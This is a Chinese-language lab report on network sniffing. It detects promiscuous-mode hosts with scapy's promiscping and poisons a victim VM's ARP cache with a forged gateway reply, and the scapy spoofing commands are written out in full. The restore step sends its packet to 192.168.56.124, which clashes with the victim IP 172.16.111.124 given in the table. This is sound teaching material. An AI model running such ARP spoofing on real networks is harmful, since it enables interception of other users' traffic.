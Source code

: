 # 实验四 网络监听

## 实验环境

##### 网络拓扑
![拓扑图](img/topology.png)

##### 网关网卡设置
![网关网卡设置](img/GW-Network-card.jpg)

##### 网络配置
![各机网络配置](img/ip-a.jpg)

| 节点               | ip地址         | MAC地址 / 网卡           |
| ------------------ | -------------- | ----------------- |
| Debian-Gateway | `172.16.111.1`  | `08:00:27:76:49:aa / enp0s9` |
| Attacker-Kali | `172.16.111.107` | `08:00:27:e1:b3:74 / eth0` |
| Victim-Kali-1 | `172.16.111.124` | `08:00:27:22:46:4f / eth0` |



## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```shell
# 安装 python3
$ sudo apt update && sudo apt install python3 python3-pip
# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
$ pip3 install scapy[complete]
```

![安装scapy](img/install-scapy.png)


## 实验一：检测局域网中的异常终端

-   ```shell
    # 在受害者主机上检查网卡的「混杂模式」是否启用
    # 注意此时输出结果中并没有出现 PROMISC 字符串
    $ ip link show eth0
    ```

    ![受害者未开启混杂模式](img/original-victim-promiscuous-mode.png)

-   ```shell
    # 在攻击者主机上开启 scapy，需要提升权限
    $ sudo scapy
    ```

    ![开启scapy](img/scapy.png)

-   ```shell
    # 在 scapy 的交互式终端输入以下代码回车执行 受害者主机 ip
    $ pkt = promiscping("172.16.111.124")
    ```

    ![第一次交互](img/grap1.jpg)

-   ```shell
    # 回到受害者主机上开启网卡的『混杂模式』
    $ sudo ip link set eth0 promisc on
    # 此时会发现输出结果中出现了 PROMISC
    $ ip link show eth0
    ```

    ![开启受害者主机的混杂模式](img/promisc-on.jpg)

-   ```shell
    # 回到攻击者主机上的 scapy 交互式终端继续执行命令
    # 观察两次命令的输出结果差异
    $ pkt = promiscping("172.16.111.124")
    ```

    ![第二次交互](img/grap2.jpg)

-   ```shell
    # 在受害者主机上
    # 手动关闭该网卡的「混杂模式」
    $ sudo ip link set eth0 promisc off
    ```

    ![手动关闭受害者主机的混杂模式](img/promisc-off.jpg)

- 综上，受害者主机未开启混杂模式时，攻击者使用 promiscping 进行发包探测，结果没有得到 arp 响应。当受害者主机开启了混杂模式后，攻击者使用 promiscping 进行发包探测，可以得到 arp 响应。

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

-   ```shell
    # 获取当前局域网的网关 MAC 地址
    # 构造一个 ARP 请求
    $ arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

    # 查看构造好的 ARP 请求报文详情
    $ arpbroadcast.show()
    ```

    ![构造好的ARP请求报文详情](img/fake-arp-package.png)

-   ```shell
    # 发送这个 ARP 广播请求
    $ recved = srp(arpbroadcast, timeout=2)

    # 网关 MAC 地址如下
    $ gw_mac = recved[0][0][1].hwsrc
    ```

    ![发送arp广播请求](img/arp-broadcast-request.png)

-   ```shell
    # 伪造网关的 ARP 响应包
    # 准备发送给受害者主机 172.16.111.124
    # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    # 注意需要在外面加封一层 Ethernet 帧头
    $ arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.124", hwdst="08:00:27:e1:b3:74")

    # 发送上述伪造的 ARP 响应数据包到受害者主机
    $ sendp(arpspoofed)
    ```

    ![发送伪造的arp](img/send_fake_arp.png)

-    此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

-   ```shell
    $ ip neigh
    ```

    ![伪装成功](img/forged_successfully.png)



### 恢复受害者主机的 ARP 缓存记录


-   ```shell
    ## 伪装网关给受害者发送 ARP 响应
    $ restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:76:49:aa", pdst="192.168.56.124", hwdst="08:00:27:22:46:4f")
    $ sendp(restorepkt1, count=100, inter=0.2)
    ```

    ![fake_gw_send_arp](img/fake_gw_send_arp.png)

- 此时在受害者主机上准备“刷新”网关 ARP 记录。

-   ```shell
    ## 在受害者主机上尝试 ping 网关
    $ ping 172.16.111.1
    ## 静候几秒 ARP 缓存刷新成功，退出 ping
    ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
    $ ip neigh
    ```

    ![restore](img/restore.png)

## 遇到的问题及解决方法

- 受害者主机 kali 有网关的 STALE 记录，手动毒化失败
    - **伪造的网关ARP相应包发不出去**
    *解决方法： 在构造ARP相应包时添加数据链路层Ether()*

    ```shell
    # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    # 注意需要在外面加封一层 Ethernet 帧头
    $ arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.124", hwdst="08:00:27:e1:b3:74")
    ```